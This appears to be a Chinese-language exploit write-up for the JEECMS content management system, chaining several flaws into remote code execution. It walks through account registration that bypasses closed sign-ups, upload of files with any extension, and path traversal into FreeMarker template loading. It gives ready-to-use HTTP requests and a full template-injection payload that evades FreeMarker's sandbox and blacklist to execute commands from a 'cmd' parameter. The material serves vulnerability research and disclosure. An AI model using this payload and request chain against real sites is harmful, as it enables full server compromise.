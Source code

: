 ### 0x01 前言

CMS对用户输入校验不严，攻击者可以配合前台任意文件上传和服务端模板注入执行任意代码，从而控制服务器权限。

### 0x02 任意注册

首先需要先登录会员。如果站点正常开放会员注册的话，直接注册即可。

但对于一种更严格的情况，就是当站点关闭会员注册时，需要通过别的手段来登录。这里可以利用第三方登录的功能，通过/thirdParty/bind接口可以实现注册并且能够直接登录（该接口在关闭第三方登录时仍旧有效）。

```php
POST /thirdParty/bind HTTP/1.1
Host: 192.168.17.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Redirect-Header: false
X-Requested-With: X MLHttpRequest
Content-Length: 80

{"username":"user123456","loginWay": 1, "loginType": "QQ", "thirdId": "abcdefg"}
```

username和thirdId参数可以随意设置，请求成功后就可以获得登录凭证（JSESSIONID或JEECMS-Auth-Token）

![image-20210604142936558](https://shs3.b.qianxin.com/butian_public/fc82c45745604f10bb7ba333e4eec8899.jpg)

### 0x03 任意文件上传

/member/upload/o\_upload接口允许会员向服务器上传文件，系统主要通过UploadService.doUpload()实现上传功能，但它没有对后缀名进行有效检查，所以攻击者可以上传任意后缀的文件，上传路径会回显在结果中（目录为/u/cms/www/&lt;date&gt;，文件名随机，后缀用户可控）。

![image-20210604140725435](https://shs3.b.qianxin.com/butian_public/fd52555807a1d20efcbe8637838837486.jpg)

![image-20210604140731849](https://shs3.b.qianxin.com/butian_public/f61e6ac4357cd47c091b5602eb6e37d15.jpg)

![image-20210604140739755](https://shs3.b.qianxin.com/butian_public/f0f6476f0c2f92425b0f8e7492886e11a.jpg)

![image-20210604140858812](https://shs3.b.qianxin.com/butian_public/fc03402c511d15a8e16a61f7918138892.jpg)

根据接口直接上传

![image-20210604143110869](https://shs3.b.qianxin.com/butian_public/fa8ee3bae0bb29ba478ad8c571176123f.jpg)

测试发现，上传jsp文件是不能被解析的，而且由于目录固定，也不能向类加载路径上传jar文件，要想执行代码的话，得进一步借助FreeMarker模板。

### 0x04 模板注入

FrontCommonController会根据请求/{page}.htm的page参数，生成模板文件的路径。FrontUtils.getTplAbsolutePath() 会将page参数中的“-”替换成“/”，FrontUtils.frontPageData()进一步在结果的前部拼接上模板目录（/WEB-INF/t/cms/www/default）、在后部拼接上后缀（.html）。我们可以构造适当的page参数，使得能访问到上传的模板文件，比如/..-..-..-..-..-u-cms-www-20210X-121948454xbn.htm对应到文件/u/cms/www/20210X/12194845

![image-20210604140940799](https://shs3.b.qianxin.com/butian_public/fa57a26e7581e151a42f8884b1f23b4f7.jpg)

![image-20210604140947446](https://shs3.b.qianxin.com/butian_public/fb6109b4bed9858856fa83791a1513564.jpg)

![image-20210604140953885](https://shs3.b.qianxin.com/butian_public/f043df4237d6c4a893c9accf36ddd0a34.jpg)

接下来的关键是如何利用FreeMarker执行代码。

FreeMarker提供了很多内建函数，使得模板开发更加灵活，但也增加了危险性。

new内建函数用于实例化实现了TemplateModel接口的类，FreeMarker自带了几个符合要求的类，可以用于执行代码，用法如下：

```php
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
<#assign value="freemarker.template.utility.O bjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

但是，FreeMarker也提供了相应措施来限制这些类的使用，通过Configuration.setNewBuiltinClassResolver(TemplateClassResolver)可以限制new内建函数对类的访问。官方提供了三个预定义的解析器：

UNRESTRICTED\_RESOLVER：简单地调用ClassUtil.forName(String)。

SAFER\_RESOLVER：和第一个类似，但禁止解析O bjectConstructor，Execute和freemarker.template.utility.JythonRuntime。

ALLOWS\_NOTHING\_RESOLVER：禁止解析任何类。

JEECMS使用了SAFER\_RESOLVER解析器，导致上述的几个类失效。

api内建函数也常用于模板注入，通常利用它来获取类的classLoader，以此来加载恶意类：

```php
<#assign classLoader=O bject?api.class.getClassLoader()>
${classLoader.loadClass("our.desired.class")}
```

但是api内建函数必须在配置项api\_builtin\_enabled为true时才有效，而该配置在2.3.22版本之后默认为false，JEECMS也没有手动去开启它。

new、api两个常用的内建函数都失效了，这里就得利用到数据模型所暴露的对象了。这些暴露出的对象可以在模板中访问，可以通过它拿到classLoader。

注意FrontCommonController.java第80行，调用了FrontUtils.frontData()，用于向数据模型添加对象，FrontUtils.frontData()的第250行添加了一个CmsSite对象，它就是一个合适的目标。

![image-20210604141021062](https://shs3.b.qianxin.com/butian_public/f5278cacbcafe505f33eb273789966ba1.jpg)

由于FreeMarker内置了一份危险方法名单 unsafeMethods.properties，禁用了很多可用的方法，下面列举了部分：

```php
java.lang.Class.getClassLoader()
java.lang.Class.newInstance()
java.lang.Class.forName(java.lang.String)
java.lang.Class.forName(java.lang.String,boolean,java.lang.ClassLoader)
java.lang.reflect.Constructor.newInstance([Ljava.lang.O bject;)
java.lang.reflect.Method.invoke(java.lang.O bject,[Ljava.lang.O bject;)
```

很多获取classLoader的途径被封禁，这导致我们不能直接通过site.getClass().getClassLoader()拿到类加载器，但我们可以利用site.getClass().getProtectionDomain().getClassLoader()，因为ProtectionDomain.getClassLoader()不在黑名单中。

Constructor.newInstance被禁使得我们不能直接实例化对象，Method.invoke被禁使得我们不能直接调用方法。这里要做的是寻找一个类的静态成员对象（public static final），然后执行它的静态方法。

FreeMarker自带的O bjectWrapper类就是一个不错的选择，它的DEFAULT\_WRAPPER字段是一个实例化后的O bjectWrapper对象，而O bjectWrapper的newInstance方法（继承自BeansWrapper）可以用于实例化一个类，我们只需要向它传入被禁用的freemarker.template.utility.Execute进行实例化，返回的对象就可以直接用于执行系统命令。

![image-20210604141034911](https://shs3.b.qianxin.com/butian_public/f97fbdddb1427b7fb10f95ef67ae0557c.jpg)

![image-20210604141042985](https://shs3.b.qianxin.com/butian_public/f8a965a3bb1c4a0e86f523981807d1d6f.jpg)

完整的模板可以这样写，通过控制http请求的cmd参数就可以执行任意命令：

```php
${site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.O bjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.utility.Execute"), null)(cmd)}
```

### 0x05 配合利用-RCE

结合文件上传,上传成功后，访问相应URL执行系统命令：

```php
POST /member/upload/o_upload HTTP/1.1
Host: 192.168.17.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:84.0)  Firefox/84.0
Accept: text/html,application/xhtml+X ML,application/X ML;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
JEECMS-Auth-Token: eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJ1c2VyMTIzNDU2IiwiY3JlYXRlZCI6MTYxMDQ0MDA5NzA4NywidXNlclNvdXJjZSI6ImFkbWluIiwiZXhwIjoxNjExMzA0MDk3fQ.12x-PtfuHIIC3aF7vV7kocd6KRwZr72SVUxbm74FdjD2WHKZ9IZm1n0cVMZdVgoFuzLuF4a8DKqmFhYX07mc5g
Content-Type: multipart/form-data; boundary=---------------------------1250178961143214655620108952
Content-Length: 604
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------1250178961143214655620108952
Content-Disposition: form-data; name="uploadFile"; filename="a.html"
Content-Type: text/html

${site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.O bjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.utility.Execute"), null)(cmd)}
-----------------------------1250178961143214655620108952
Content-Disposition: form-data; name="typeStr"

File
-----------------------------1250178961143214655620108952--
```

![image-20210604143242534](https://shs3.b.qianxin.com/butian_public/f8a0cceeb6068c20a09ee36bc99c025f6.jpg)